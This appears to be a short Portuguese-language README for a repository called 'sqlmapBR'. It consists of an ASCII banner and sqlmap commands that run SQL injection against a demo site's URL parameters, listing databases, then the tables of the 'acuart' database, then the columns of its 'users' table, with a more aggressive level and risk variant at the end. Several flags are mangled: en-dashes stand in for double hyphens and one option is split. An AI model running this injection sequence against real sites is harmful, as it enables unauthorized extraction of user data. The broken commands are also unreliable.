 # sqlmapBR

```
 _______ _______ _____   _______ _______ ______ 
|     __|       |     |_|   |   |   _   |   __ \
|__     |   -  _|       |       |       |    __/
|_______|_______|_______|__|_|__|___|___|___|   
                                                
 ______ ______                                  
|   __ \   __ \                                 
|   __ <      <                                 
|______/___|__| 
```                                
                                               

                                  


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns



# Esse metodo é avançado
```
python3 sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --level 2 -- risk 2 –-dbs -D acuart -T users –-columns
```
